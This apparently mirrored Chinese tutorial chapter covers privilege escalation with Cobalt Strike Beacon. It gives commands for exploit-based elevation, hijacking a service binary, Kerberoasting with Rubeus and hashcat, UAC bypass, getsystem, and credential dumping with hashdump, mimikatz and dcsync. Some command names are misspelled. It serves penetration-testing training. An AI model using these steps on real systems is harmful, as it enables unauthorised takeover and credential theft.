# Privilege Escalation

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike 4.0/7.Privilege Escalation/7.Privilege Escalation.html](http://book.iwonder.run/Tools/Cobalt Strike 4.0/7.Privilege Escalation/7.Privilege Escalation.html)

这一章节中我们讨论各种通过 Beacon 提权的方式 。

## Elevate

*   列出权限目录： elevate

*   生成提权会话：elevate [module] [listener]

    界面操作如下：[session] -> Access ->Elevate

    

## RunAsAdmin

*   列出提权命令提示：runasadmin
*   在已提权会话中运行指令：runasadmin [module] [command]

## Elevate vs RunAsAdmin

*   elevate 能够产生一个提权的会话，一些提权工具可以很容易执行并达到提权目的。
*   runasadmin 可以使用自己的武器库进行，比如使用高权限运行一个 exe 文件，给目标发送命令，或者只是想执行一条 powershell。使用 session->Access->One-liner 可以生成一条 powershell 来生成一个新的会话。

## Elevate Kit

Elevate Kit 是一个 Aggressor 脚本，将几个提权漏洞集成到 Cobalt Strike 中。下载地址：[https://github.com/rsmudge/ElevateKit](https://github.com/rsmudge/ElevateKit)

具体使用方法如下：

*   Cobalt Strike -> Scripts,点击 Load, 将 elevate.cna 加载到 Cobalt Strike

    

    

*   选择 Interact ，在 Beacon 中输入 elevate 可以查看提权目录，新建一个监听器，使用 ms15-051 输入 elevate ms15-051 [listener name]，获取 system 权限成功。

    

    

## SharpUp

sharpup 是一个用来扫描提权漏洞或者缺失安全配置项的工具，通过不同的利用方法进行提权。在 Beacon 中这样调用：`execute-assembly /local/path/SharpUp.exe all`

下载地址：[https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp)

*   在 Beacon 中执行`execute-assembly /local/path/SharpUp.exe all` 后，发现 VMTools 服务可修改。

    

*   生成一个 EXE Payload，命名为 vmtoolsd.exe

    

*   将 vmtoolsd.exe 上传到目标服务器上，并修改该服务对应文件路径，重启服务后显示成功，然后在 Beacon 中连接监听器端口，system 权限主机上线成功。

    

    

## Spawn As

spawn as 使用指定的凭证作为另一个用户生成一个会话。 打开方式：[session]->Access-Spawn As

## Kerberoasting

*   一些服务是以域账户作为服务登陆账户，这些账户往往权限比较高，甚至有的时候是域管理员身份。
*   kerberos 认证中，服务账户与 DC 服务器中一个唯一的 SPN（配置服务主体名称）关联。
*   kerberos 票据中部分使用了用户密码哈希值生成。
*   攻击思路：

    *   用 SPNs 在域控制器中查询账户 。
    *   为关联服务向授权服务器申请一个票据 。
    *   破解票据恢复密码。
*   攻击步骤：

    *   在 Beacon 中 `execute-assembly /path/to/rubeus.exe kerberosst` 得到一个域账号及生成的票据。

        

        

    *   下载生成的票据文件，使用 hashcat 工具破解得到密码。

        

    *   使用 sqawnas 生成另外一个会话。

        

## 提权问题集

*   没有权限，这种情况下需要查看是否有提权漏洞存在并利用。
*   当前用户 是 administrator，但是没有相应权限
*   已经提权但是操作有限制。

## UAC

用户账户控制（User Account Control）在 Windows Vista 及更高版本操作系统中采用的一种控制机制，其原理是通知用户是否对应用程序使用硬盘驱动器和系统文件授权，已达到帮助组织恶意程序损坏系统的效果。在操作系统中有三个权限，高权限（管理员权限），中权限（普通用户权限），低权限（限制权限）。在本地的管理员也会执行两种权限，一个是普通用户，另外一个是管理员权限。使用`whoami /groups`可以查看当前用户属于哪个权限组。那么如何绕过 UAC，以下是几种方法：

*   使用`elevate uac-teken-duplication [listener]`,这个提权漏洞在 win10 RS5 的版本中已经被修复
*   `runasadmin uac-cmstplua [command]`
*   其他 elevate kit 的方法

首先生成一个 Powersehll one-liner ，然后使用 runasadmin uac-cmstplua [one-liner] ，绕过 uac 成功。





## Access Token

当用户登录后，系统创建一个令牌（Access Token），里边包含了用户和用户组信息、登录进程返回的 SID 和由本地安全策略分配给用户和用户的安全组的特权列表，系统使用令牌控制用户可以访问哪些安全对象，并控制用户执行相关系统操作的能力。令牌会一直存在，直到系统被重启。

令牌权限：

*   `whoami /priv`查看当前令牌的权限。

*   在 Beacon 中使用`getprivs`可以获得尽可能多的权限。 首先查看当前权限，大部分为 disable，使用 getprivs 后再查看当前权限，大部分已经是 enable 状态。

    

    

*   特权包括：SeCreateTokenPrivilege、SeDebugPrivilege、SeTcbPrivilege 等 。

获取 System 权限

*   System 权限是系统最高权限。

*   在 Beacon 中使用`getsystem`模拟 System 账户的令牌。

*   使用 elevate svc-exe [listener] 在目标机器上启动一个服务来产生一个新会话，拥有 System 权限。

    

## Credential and Hash

[session]->Access-Dump Hashes，或者在 Beacon 中使用 hashdump 命令将目标机器中的哈希转存，logopasswords 命令将使用 mimikatz 为登录到当前系统的用户读取明文密码和哈希。logopasswords 命令与[session]->Access->Run Mimikatz 相同。 使用 dcsync [domain]从域控中提取所有账户密码哈希。所有的凭证在 View->Credentials 中查看。

## Mimikatz

*   mimikatz [command] [arguments] 执行一个 mimikatz 命令
*   mimikatz ![command] [arguments] 使用 System 权限执行 mimikatz 命令
*   mimikatz @[command] [arguments] 使用当前令牌执行 mimikatz 命令

